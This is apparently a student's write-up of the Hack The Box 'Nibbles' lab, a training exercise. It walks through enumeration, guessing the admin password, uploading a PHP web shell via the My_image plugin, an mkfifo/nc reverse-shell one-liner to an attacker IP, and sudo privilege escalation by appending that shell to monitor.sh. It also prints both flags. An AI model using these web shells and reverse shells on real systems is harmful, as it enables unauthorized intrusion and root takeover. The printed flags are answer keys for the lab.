



---

---
question : Gain a foothold on the target and submit the user.txt flag
ip : `10.129.200.170`
first of all i use nmap scan this port and i found port 80 apache is open
```copy
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-5zbkwxowyt]─[~]
└──╼ [★]$ nmap -sV -sC -p- 10.129.200.170
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-07 22:40 CST
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 10.01% done; ETC: 22:41 (0:00:36 remaining)
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 19.49% done; ETC: 22:41 (0:00:29 remaining)
Nmap scan report for 10.129.200.170
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.81 seconds

```
go to website `http://10.129.200.170` it have text -> `Hello world!` I view code and i found this :

then go to  `http://10.129.200.170/nibbleblog` 

next I will use gobuster to find hidden path
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-5zbkwxowyt]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.200.170/nibbleblog/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 309]
/.htaccess            (Status: 403) [Size: 309]
/.hta                 (Status: 403) [Size: 304]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================

```
we need to log in admin.php but we don't have user name and password let find it
go to `http://10.129.200.170/nibbleblog/content/private/users.xml` and see it
```copy
users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1731039662</session_date>
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```
I found user name is `admin` but where is password ? I think password is in confix.xml 
```
<config>
<name type="string">Nibbles</name>
<slogan type="string">Yum yum</slogan>
<footer type="string">Powered by Nibbleblog</footer>
<advanced_post_options type="integer">0</advanced_post_options>
<url type="string">http://10.10.10.134/nibbleblog/</url>
<path type="string">/nibbleblog/</path>
<items_rss type="integer">4</items_rss>
<items_page type="integer">6</items_page>
<language type="string">en_US</language>
<timezone type="string">UTC</timezone>
<timestamp_format type="string">%d %B, %Y</timestamp_format>
<locale type="string">en_US</locale>
<img_resize type="integer">1</img_resize>
<img_resize_width type="integer">1000</img_resize_width>
<img_resize_height type="integer">600</img_resize_height>
<img_resize_quality type="integer">100</img_resize_quality>
<img_resize_option type="string">auto</img_resize_option>
<img_thumbnail type="integer">1</img_thumbnail>
<img_thumbnail_width type="integer">190</img_thumbnail_width>
<img_thumbnail_height type="integer">190</img_thumbnail_height>
<img_thumbnail_quality type="integer">100</img_thumbnail_quality>
<img_thumbnail_option type="string">landscape</img_thumbnail_option>
<theme type="string">simpler</theme>
<notification_comments type="integer">1</notification_comments>
<notification_session_fail type="integer">0</notification_session_fail>
<notification_session_start type="integer">0</notification_session_start>
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
<seo_site_description type="string"/>
<seo_keywords type="string"/>
<seo_robots type="string"/>
<seo_google_code type="string"/>
<seo_bing_code type="string"/>
<seo_author type="string"/>
<friendly_urls type="integer">0</friendly_urls>
<default_homepage type="integer">0</default_homepage>
</config>
```
i found `admin@nibbles.com` maybe password is nibbles try it.
dam!! ok i can log in and can i get permission this website? i try go to Plugins -> My_image enter Configure 

Let us attempt to use this plugin to upload a snippet of `PHP` code instead of an image.
```php
<?php system('id'); ?>
```
Save this code to a file and then click on the `Browse` button and upload it. Then we get a bunch of errors, but it seems like the file may have uploaded.
```shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```
go to `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php`
it show `uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)` 
Let edit our local PHP file and upload it again. This command should get us a reverse shell.
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
- 10.10.14.2 -> is your ip address
- 9443 -> port to listen
We upload the file again and start a `netcat` listener in our terminal
```shell-session
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-5zbkwxowyt]─[~/Downloads]
└──╼ [★]$ nc -lvnp 9443
listening on [any] 9443 ...
connect to [10.10.14.62] from (UNKNOWN) [10.129.200.170] 43536
/bin/sh: 0: can't access tty; job control turned off

```
we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module
go to `http://10.129.200.170/nibbleblog/content/private/plugins/my_image/`
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

 ```
 $ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -la
<ml/nibbleblog/content/private/plugins/my_image$ ls                    -la   
total 16
drwxr-xr-x 2 nibbler nibbler 4096 Nov  7 23:32 .
drwxr-xr-x 7 nibbler nibbler 4096 Dec 10  2017 ..
-rw-r--r-- 1 nibbler nibbler  258 Nov  7 23:32 db.xml
-rw-r--r-- 1 nibbler nibbler  100 Nov  7 23:32 image.php
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /
<ml/nibbleblog/content/private/plugins/my_image$ cd /     
nibbler@Nibbles:/$ cd /home
cd /home
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
79c03865431abf47b90ef24b9695e148

```
flag : `79c03865431abf47b90ef24b9695e148`

EX2 :  Escalate privileges and submit the root.txt flag.
Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the `personal.zip` file and see a file called `monitor.sh`. Then you use `wget` to get the LinEnum.sh
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-lhfqcrvcbn]─[~/Downloads]
└──╼ [★]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

```

then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-lhfqcrvcbn]─[~/Downloads]
└──╼ [★]$ sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Back on the target type wget <a>http://10.10.14.62:8080/LinEnum.sh</a> to download the script
```
nibbler@Nibbles:/home/nibbler$ wget http://10.10.14.62:8080/LinEnum.sh
wget http://10.10.14.62:8080/LinEnum.sh
--2024-11-08 04:10:03--  http://10.10.14.62:8080/LinEnum.sh
Connecting to 10.10.14.62:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2024-11-08 04:10:03 (326 KB/s) - 'LinEnum.sh' saved [46631/46631]

```

type `chmod +x LinEnum.sh` and then type `./LinEnum.sh` to run it
```
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh

```
go to `/home/nibbler/personal/stuff` and type `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh` 
back to your pc listen it `nc -lvnp 8443` 
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found

```

your pc display:
```
┌─[us-academy-5]─[10.10.14.62]─[htb-ac-1387859@htb-lhfqcrvcbn]─[~/Downloads]
└──╼ [★]$ nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.14.62] from (UNKNOWN) [10.129.200.170] 35114
# id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Nibbles:/home/nibbler/personal/stuff# cd /
cd /
root@Nibbles:/# cd /root
cd /root
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
cat root.txt
de5e5d6619862a8aa5b9b212314e0cdd

```
flag : `de5e5d6619862a8aa5b9b212314e0cdd`
